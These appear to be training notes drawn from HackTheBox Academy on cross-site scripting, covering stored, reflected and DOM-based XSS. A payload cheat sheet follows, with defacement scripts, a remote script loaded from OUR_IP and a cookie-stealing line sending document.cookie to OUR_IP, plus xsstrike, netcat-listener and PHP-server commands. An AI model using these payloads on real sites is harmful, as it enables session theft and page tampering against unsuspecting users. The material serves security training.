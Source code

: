 XSS vulnerabilities take advantage of a flaw in user input sanitization to "write" JavaScript code to the page and execute it on the client side, leading to several types of attacks.
XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (`low impact + high probability = medium risk`), which we should always attempt to `reduce` risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

![](https://i.imgur.com/8mmHl3Z.png)

## Types of XSS

There are three main types of XSS vulnerabilities:

|Type|Description|
|---|---|
|`Stored (Persistent) XSS`|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|`Reflected (Non-Persistent) XSS`|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|`DOM-based XSS`|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

<span style="color:#00ff73">Stored XSS or Persistent XSS</span>. If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page. Furthermore, Stored XSS may not be easily removable, and the payload may need removing from the back-end database.


## Commands

|Code|Description|
|---|---|
|**XSS Payloads**||
|`<script>alert(window.origin)</script>`|Basic XSS Payload|
|`<plaintext>`|Basic XSS Payload|
|`<script>print()</script>`|Basic XSS Payload|
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`|Change Background Color|
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image|
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title|
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body|
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element|
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script|
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
|**Commands**||
|`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`|Run `xsstrike` on a url parameter|
|`sudo nc -lvnp 80`|Start `netcat` listener|
|`sudo php -S 0.0.0.0:80`|Start `PHP` server|

# **Questions & Answers